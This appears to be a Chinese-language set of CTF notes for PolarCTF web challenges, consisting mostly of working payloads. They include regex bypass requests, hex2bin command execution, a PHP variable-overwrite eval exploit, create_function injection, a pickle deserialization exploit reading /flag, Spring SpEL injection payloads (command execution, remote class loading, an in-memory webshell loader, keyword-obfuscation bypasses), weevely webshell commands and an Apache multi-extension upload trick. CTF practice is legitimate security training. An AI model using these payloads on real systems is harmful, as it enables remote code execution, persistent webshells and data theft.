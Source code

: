 # web
### swp
递归绕过正则限制
```python
import requests
data = {"xdmtql": "sys nb" + "aaaaa" * 1000000}
res = requests.post('http://d9d00980-d2fc-412e-b6cc-b6db2562eafb.www.polarctf.com:8090/index.php', data=data, allow_redirects=False)
print(res.content)

```

### 简单rce
$IFS空格绕过+sort读取文件

### 上传


### 非常好绕的命令执行

hex2bin转换
`http://1ae67e55-509c-49e4-9bf7-a04be9788ca5.www.polarctf.com:8090/?args1=hex2bin&args2='73797374656d'&args3='ls'`

### php是世界上最好的语言
变量覆盖
```php
<?php
//flag in $flag
highlight_file(__FILE__);
include("flag.php");
$c=$_POST['sys'];
$key1 = 0;
$key2 = 0;
if(isset($_GET['flag1']) || isset($_GET['flag2']) || isset($_POST['flag1']) || isset($_POST['flag2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($flag1 == '8gen1' && $flag2 == '8gen1') {
    if(isset($_POST['504_SYS.COM'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\?/", $c)){
         eval("$c");  

    }
}
}
?>
```

```http
http://www.xxx.com?_POST[flag1]=8gen1&_POST[flag2]=8gen1
post:sys=echo($flag);&504[SYS.COM=a
```

### \$\$
`$GLOBALS`全局变量
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231211154038.png)


### 某函数的复仇
create_function注入

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231211163836.png)

```php
$shaw('',$root);


root=}system('more /flag');/*
shaw=create_function
```


### veryphp
call_user_func
调用类的方法
`myans=qwq::oao`

### unpickle
#pickle 

```python
import requests
import pickle
import os
import base64


class exp(object):
    def __reduce__(self):
        return (eval,("__import__('os').popen('cat /flag').read()",))


e = exp()
s = pickle.dumps(e)#将获取的对象序列化
user = base64.b64encode(s).decode()##将序列化的对象使用base64加密
print(user)#输出加密后的序列化对象
```

### upload tutu
使用`fastcoll`生成俩个hash值相同的文件,在`D:\CTF_Tools\fastcoll_v1.0.0.5.exe\fastcoll_v1.0.0.5.exe`

`fastcoll_v1.0.0.5.exe -p test.php -o test1.php test2.php`


### ezjava
Spel表达式注入
```java
//简单rce
new java.lang.ProcessBuilder("calc").start()
T(java.lang.Runtime).getRuntime().exec('calc')
new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);")

//远程类加载
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8888/')}).loadClass("evil").getConstructors()[0].newInstance()

new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL('http://127.0.0.1:8888/')}).loadClass("evil").newInstance()



//回显
new java.util.Scanner(new java.lang.ProcessBuilder("ls", "app").start().getInputStream(), "GBK").useDelimiter("asdasdasdasd").next()

new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()

//需要注册一个response上下文
#response.addHeader('x-cmd',new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine())


//内存🐎
T(org.springframework.cglib.core.ReflectUtils).defineClass('InceptorMemShell',T(org.springframework.util.Base64Utils).decodeFromString(''),T(java.lang.Thread).currentThread().getContextClassLoader()).newInstance()

//关键字绕过
T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),newString[]{"cmd","/C","calc"})

''.class.getSuperclass().class.forName('java.lang.Runtime').getMethod("ex"+"ec",T(String[])).invoke(''.class.getSuperclass().class.forName('java.lang.Runtime').getMethod("getRu"+"ntime").invoke(null),'calc')
```


### 这又是一个上传
可以直接上传一个php,但是权限很低,什么也做不了

使用`weevely`,在`D:\CTF_Tools\weevely3\`
```bash
#生成shell
python3 weevely.py generate cmd shell.php
#连接shell
python3 weevely.py http://xxx.php cmd
```

### 你的马呢？
apache解析漏洞
> AddHandler导致的Apache解析漏洞
如果服务器给.php后缀添加了处理器：
AddHandler application/x-httpd-php.php
那么，在有多个后缀的情况下，只要包含.php后缀的文件就会被识别出php文件进行解析，不需要是最后一个后缀。如shell.php.jpg中包含.php，所以解析为php文件
利用：
1、1.php.jpg
2、1.php.txt
影响范围：2.4.0-2.4.29版本

---



# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-12-09   23:22